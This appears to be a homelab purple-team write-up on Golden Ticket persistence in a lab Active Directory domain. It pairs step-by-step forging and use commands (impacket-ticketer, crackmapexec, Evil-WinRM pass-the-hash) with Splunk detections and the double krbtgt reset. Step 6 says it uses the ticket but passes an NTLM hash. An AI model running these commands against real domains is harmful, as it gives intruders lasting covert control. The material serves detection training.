



# Phase 5 — Persistence via Golden Ticket

> **Tactic:** Persistence  
> **ATT&CK:** T1558.001  
> **Target:** homelab.local domain  
> **Result:** Forged Kerberos ticket granting permanent domain access

---

## Overview

With the krbtgt hash extracted from NTDS.dit we can forge a Golden Ticket — 
a valid Kerberos TGT signed with the krbtgt secret. This grants permanent 
access to every resource in the domain and survives da_admin password resets 
because it only depends on the krbtgt hash which rarely changes.

 

---

## Why Golden Ticket is Dangerous
```
Normal credential compromise:
  da_admin password reset → attacker loses access ✅ defender wins

Golden Ticket:
  da_admin password reset → attacker still has access ❌ defender loses
  Valid for:  10 years by default
  Works on:   every machine in the domain
  Requires:   only krbtgt hash — never needs to change
```

---

## Step 1 — Extract krbtgt Hash

On Kali, grep the domain hashes file from Phase 4:
```bash
grep krbtgt /tmp/domain_hashes.ntds
```

Expected output:
```
homelab.local\krbtgt:502:aad3b435b51404eeaad3b435b51404ee:<KRBTGT_HASH>:::
```

Note the NTLM hash — the value after the third colon.

---

## Step 2 — Get Domain SID

Inside Evil-WinRM as da_admin on DC01:
```powershell
Get-ADDomain | Select-Object DomainSID
```

Expected output:
```
DomainSID
---------
S-1-5-21-2103689446-2048113387-493740790
```

---

## Step 3 — Forge the Golden Ticket

On Kali:
```bash
impacket-ticketer \
  -nthash <KRBTGT_HASH> \
  -domain-sid S-1-5-21-2103689446-2048113387-493740790 \
  -domain homelab.local \
  Administrator

# Verify ticket file created
ls -lh Administrator.ccache
```

---

## Step 4 — Configure DNS Resolution
```bash
# Add DC hostname to hosts file
echo "192.168.0.104 HL-DC01.homelab.local HL-DC01" | sudo tee -a /etc/hosts
echo "192.168.0.105 HL-WS01.homelab.local HL-WS01" | sudo tee -a /etc/hosts

# Set DC as DNS server
echo "nameserver 192.168.0.104" | sudo tee /etc/resolv.conf
```

---

## Step 5 — Use the Golden Ticket
```bash
# Export ticket path
export KRB5CCNAME=/path/to/Administrator.ccache

# Verify ticket works against DC01
crackmapexec smb 192.168.0.104 --use-kcache -u Administrator
```

Expected output:
```
SMB  192.168.0.104  445  HL-DC01  [+] homelab.local\ from ccache (Pwn3d!)
```

---

## Step 6 — Get Shell Using Ticket
```bash
evil-winrm -i 192.168.0.104 \
  -u da_admin \
  -H <DA_NTLM_HASH>
```

Verify persistence:
```powershell
whoami
# homelab\da_admin

# Confirm access to all shares
dir \\HL-DC01\HR_Share
dir \\HL-DC01\IT_Share
dir \\HL-DC01\ADMIN$
```



---

## Step 7 — Verify Ticket Survives Password Reset

This demonstrates why Golden Ticket is critical to detect and respond to:
```powershell
# On DC01 as da_admin — reset da_admin password
Set-ADAccountPassword -Identity da_admin \
  -NewPassword (ConvertTo-SecureString "NewPassword123!" -AsPlainText -Force) \
  -Reset

# Now try normal login with old hash — this should FAIL
evil-winrm -i 192.168.0.104 -u da_admin -H <OLD_HASH>
# Expected: Access denied ✅ password reset worked
```
```bash
# Now try golden ticket — this should STILL WORK
export KRB5CCNAME=/path/to/Administrator.ccache
crackmapexec smb 192.168.0.104 --use-kcache -u Administrator
# Expected: Pwn3d! ❌ golden ticket still valid
```

> This demonstrates the critical difference — the golden ticket is 
> completely independent of user passwords. Only resetting the krbtgt 
> password twice invalidates all existing golden tickets.

---

## Splunk Detection

### TGT Request from Kali — EID 4768
```
index=wineventlog host="HL-DC01" EventCode=4768
| search Account_Name="*brown*" OR Account_Name="*johnson*"
| table _time, Account_Name, Client_Address, Ticket_Encryption_Type, Pre_Authentication_Type
```

### Administrator Logon from Kali IP — EID 4624
```
index=wineventlog host="HL-DC01" EventCode=4624
| search Account_Name="da_admin" Source_Network_Address="192.168.0.103"
| table _time, Account_Name, Logon_Type, Source_Network_Address
```



---

## Blue Team Response — How to Invalidate Golden Tickets
```powershell
# Must reset krbtgt password TWICE with replication delay between resets
# First reset
Set-ADAccountPassword -Identity krbtgt \
  -NewPassword (ConvertTo-SecureString "NewKrbtgtPass1!" -AsPlainText -Force) \
  -Reset

# Wait for AD replication (minimum 10 hours in production)
# Second reset — invalidates ALL existing golden tickets
Set-ADAccountPassword -Identity krbtgt \
  -NewPassword (ConvertTo-SecureString "NewKrbtgtPass2!" -AsPlainText -Force) \
  -Reset
```

> Resetting krbtgt once is not enough — the previous hash is still cached. 
> Both resets are required to fully invalidate all forged tickets.

---

## IOCs Generated

| Type | Value |
|------|-------|
| Ticket File | Administrator.ccache |
| Source IP | 192.168.0.103 |
| Account Used | da_admin |
| Encryption | RC4 — weak encryption indicator |
| Logon Type | 3 network logon from attacker IP |

---

## Key Takeaway

> The Golden Ticket represents complete and persistent domain compromise. 
> Even if defenders reset every user password the attacker retains access 
> until krbtgt is reset twice. Detection relies on anomaly-based monitoring 
> — looking for impossible ticket lifetimes, unusual encryption types, 
> and privileged logons from unexpected source IPs.
